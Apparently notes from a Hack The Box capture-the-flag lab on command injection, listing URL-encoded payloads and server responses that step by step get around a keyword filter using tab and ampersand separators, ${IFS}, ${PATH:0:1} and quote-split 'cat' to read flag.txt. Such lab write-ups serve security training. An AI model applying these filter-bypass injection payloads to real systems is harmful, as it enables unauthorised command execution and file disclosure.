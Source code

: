 Malicious request detected

%09%26ls

Malicious request detected

%09%26{ls,-la}

Malicious request denied

%09%26%7Bls%2C-la%7D

Malicious request denied

%09%26dir

--> OK

%09%26dir{PATH:0:1}

400 Bad Request

%09%26dir%7BPATH%3A0%3A1%7D

dir{PATH:0:1}: command not found

%09%26dir%09%24%7BPATH%3A0%3A1%7D

400 Bad Request

%09%26dir%24%7BPATH%3A0%3A1%7D

400 Bad Request

%09%26dir%09..

400 Bad Request

${IFS}

%09%26dir%24%7BIFS%7D..

--> OK html

%09%26dir%24%7BIFS%7D%24%7BPATH%3A0%3A1%7D

400 Bad Request

%09%26dir%24%7BIFS%7D${PATH:0:1}

--> OK flag.txt

%09%26c"a"t%24%7BIFS%7D${PATH:0:1}flag.txt

--> OK 
HTB{c0mm4nd3r_1nj3c70r}

The 400 Bad Request was because a carriage return in copy/paste

